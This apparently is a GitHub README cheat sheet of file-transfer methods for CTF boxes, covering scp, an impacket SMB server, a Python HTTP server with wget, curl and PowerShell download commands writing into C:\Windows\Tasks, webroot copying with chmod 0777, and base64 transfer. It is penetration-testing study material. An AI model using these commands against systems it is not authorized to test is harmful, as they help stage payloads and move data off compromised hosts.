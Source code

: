 # File-Transfer
## Collection of File Transfer possibilities

In some CTF's it is useful to have a Plan B if you need to transfer a file from or to a remote machine.

## SCP
The bestcase scenario is scp over a SSH connection.
```bash
scp user@sourceIP:/PATH/file.ext user@destinationIP:/PATH/file.ext
```

## SMBserver
Start a SMBserver in you current directory [.] to copy & paste files back and forth.
```bash
sudo impacket-smbserver -smb2support share[NAME] .[/PATH] 
```
Copy from Windows Target
```bash
copy .\file.ext \\SMBserverIP\share\file.ext
```
Copy to a Windows Target
```bash
copy \\SMBserverIP\share\file.ext .\file.ext
```
Make sure to stop the SMBserver after transfer because everybody in that network has access to your SMBserver.

## Python Server
It is also possible to start a Python3 http.server and transfer some files with wget or IWR. <br>
At the Source
```bash
python3 -m http.server 8080
```
At the destination Linux
```bash
wget http://sourceIP:8080/file.ext
curl http://sourceIP:8080/file.ext -o /PATH/fiile.ext
```
At the destination Windows
```bash
powershell.exe IEX(New-Object Net.WebClient).DownloadFile('http://sourceIP/file.ext','C:\Windows\Tasks\file.ext')
iwr "http://sourceIP/file.ext" -outfile "C:\Windows\Tasks\file.ext"
```
## HTML
If your target has a public facing Webpage you can use it to download the files.
```bash
cp *.ext /var/www/html/
chmod 0777 /var/www/html/*.ext
http://source.URL/file.ext
```

## Base64
If all else fails, there is always plan y. <br>
Convert a file or program to a Base64 string copy & paste it to the Target and deconvert it. <br>
<br>
On Linux
```bash
base64 file.ext > fileb64.txt
cat fileb64.txt
```
On Windows
```bash
[convert]::ToBase64String((Get-Content -path "file.ext" -Encoding byte))
```
Copy the Base64 string.
```bash
vim string.b64
```
Paste the string to any Text-Editor.
```bash
base64 -d string.b64 > file.ext
```
